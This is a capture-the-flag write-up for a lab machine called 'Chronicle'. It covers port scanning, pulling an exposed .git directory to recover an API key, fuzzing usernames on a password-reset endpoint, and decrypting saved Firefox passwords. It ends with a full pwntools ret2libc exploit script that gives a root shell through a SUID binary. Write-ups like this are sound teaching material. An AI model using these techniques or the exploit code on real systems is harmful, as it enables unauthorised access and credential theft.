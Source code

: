 ```yaml
---
date: 2021-05-01 00:07:51
layout: post
title: "Chronicle"
subtitle:
description:
image: /writeup/assets/img/chronicle/main.jpg
optimized_image:
category:
tags:
author:
paginate: false
---
```


Start with nmap scan 
```
nmap -T4 -p- 10.10.140.252
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-01 05:20 IST
Nmap scan report for 10.10.140.252
Host is up (0.42s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b2:4c:49:da:7c:9a:3a:ba:6e:59:46:c2:a9:e6:a2:35 (RSA)
|   256 7a:3e:30:70:cf:32:a4:f2:0a:cb:2b:42:08:0c:19:bd (ECDSA)
|_  256 4f:35:e1:33:96:84:5d:e5:b3:75:7d:d8:32:18:e0:a8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8081/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.67 seconds
```
This shows 3 ports are open with 2 of them hosting a website. Fuzzing for more pages and directories on the website hosted on port 80 gives a `/old` directory and fuzzing more within it gives `.git` directory.
Download the .git directory inside a empty directory using 
```
wget --continue  http://10.10.140.252/old/.git/ --recursive
```

Moving onto other website, there is a login endpoint that provides a login page
![placeholder](/writeup/assets/img/chronicle/login.png "login")
The login page does not seems to be working but the link to forgot page works and requesting for password reset using the input box does seem to send a request.

Looking at the request closely shows that a parameter in the body of request which says `key` is NULL and the response recieved shows that API Key is invalid.
![placeholder](/writeup/assets/img/chronicle/forgot.png "forgot")

Running `git log -p -2` in the directory in which .git was downloaded shows various commits that have removed the data from the directory and one such commit contains the API Key being used in the backend.
![placeholder](/writeup/assets/img/chronicle/key.png "API_Key")

Using the key in the forgot password request now shows invalid username. Fuzzing with the most common 10K usernames wordlist shows that one of the username "tommy" works and the endpoint gives the password of the user.

Use the username and password to login using ssh.

Searching for various things inside the system shows that the second user carlJ is having a unusual directory `.mozilla` inside his home directory. Moreover, the directory can be accessed by tommyV user.
Since firefox is present, it may contain saved passwords. So using the tool <a href="https://github.com/unode/firefox_decrypt">Firefox_Decrypt</a> by pointing it inside `.mozilla/firefox` shows 2 profiles and 2nd one asks for master password.
![placeholder](/writeup/assets/img/chronicle/firefox.png "Firefox")

Trying various common passwords like password,admin,etc reveals that the master password is `password1` and thus shows the password for carlJ user.

Switch to carlJ user with the extracted password. Inside the `mailing` directory in home directory of the user shows a SUID binary, that asks for some input and claims to send message.


This binary is vulnerable to ret2libc buffer overflow.
Using the following python code it can be exploited to get root shell.
```python
from pwn import *

p = process('./smail')

libc_base = 0x7ffff79e2000
system = libc_base + 0x4f550
binsh= libc_base + 0x1b3e1a

POPRDI=0x4007f3

payload = b'A' * 72
payload += p64(0x400556)
payload += p64(POPRDI)
payload += p64(binsh)
payload += p64(system)
payload += p64(0x0)

p.clean()
p.sendline("2")
p.clean()
p.sendline(payload)
p.interactive()
```
